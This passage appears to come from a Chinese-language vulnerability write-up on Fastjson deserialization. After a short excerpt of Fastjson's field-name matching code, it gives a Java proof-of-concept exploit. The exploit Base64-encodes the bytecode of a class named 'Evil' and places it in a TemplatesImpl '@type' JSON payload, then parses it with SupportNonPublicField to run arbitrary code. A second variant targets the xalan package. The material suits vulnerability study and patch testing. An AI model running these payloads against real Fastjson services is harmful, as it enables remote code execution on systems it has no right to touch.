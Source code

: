 ```java
                    key2 = key.replaceAll("_", "");
                    break;
                } else if (ch == '-') {
                    snakeOrkebab = true;
                    key2 = key.replaceAll("-", "");
                    break;
                }
            }
         //接下来根据替换后的key2，去寻找对应符合getter，setter的方法名进行匹配
```

此思路同样用于 xalan 依赖包 ` com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl `

POC

```java
package cve.fastjson;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.Feature;
import com.alibaba.fastjson.parser.ParserConfig;
import javassist.ClassPool;
import org.apache.commons.codec.binary.Base64;
import service.Evil;
import service.xalanEvil;

public class TemplatesImpl {
    public static void main(String[] args) throws Exception{
        ParserConfig config = new ParserConfig();
        String payload = Base64.encodeBase64String(ClassPool.getDefault().get(Evil.class.getName()).toBytecode());
        //原始方法 jdk1.7
        String json = "{" +
                "\"@type\":\"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl\"," +
                "\"_bytecodes\":[\""+payload+"\"]," +
                "\"_name\":\"Evil\","+
                "\"_tfactory\":{ }," +
                "\"_outputProperties\":{ }" +
                "}";
//        System.out.println(json);
        Object obj = JSON.parseObject(json, Object.class, config, Feature.SupportNonPublicField);

        //xalan依赖包jdk1.7-1.8通用
        String xalanpayload = Base64.encodeBase64String(ClassPool.getDefault().get(xalanEvil.class.getName()).toBytecode());
        String xalanjson = "{" +
                "\"@type\":\"org.apache.xalan.xsltc.trax.TemplatesImpl\"," +
                "\"_bytecodes\":[\""+xalanpayload+"\"]," +
                "\"_name\":\"Evil\","+
                "\"_tfactory\":{ }," +
                "\"_outputProperties\":{ }" +
                "}";
//        System.out.println(xalanjson);
//        Object xalanobj = JSON.parseObject(xalanjson, Object.class, config, Feature.SupportNonPublicField);
    }
}
```
